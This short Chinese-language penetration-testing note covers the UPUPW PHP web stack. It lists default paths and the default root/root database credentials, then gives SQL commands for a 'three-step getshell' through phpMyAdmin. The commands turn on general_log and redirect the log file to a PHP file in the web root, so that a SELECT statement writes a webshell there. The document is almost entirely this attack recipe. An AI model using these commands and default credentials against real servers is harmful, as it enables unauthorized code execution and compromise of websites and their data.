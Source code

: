 # UPUP'W

---

介绍

```
搭建网站的组件，有自带waf
```
默认
```
u.php
root/root 连接数据测试后跳转phpfinfo页面
pmd -> phpmyadmin
```

错误页面

<img src='https://p-t001.github.io/image/blog/upupw.png' align='left' style='width:900px;height:500px'>

phpmyadmin三步getshell（需要root权限，需要知道网站路径）

```
将查询内容记录到日志里面
set global general_log='on';  #开启日志
---
SET global general_log_file='D:/xxxx/WWW/cmd.php'; #修改日志路径
---
SELECT 一句话;
```
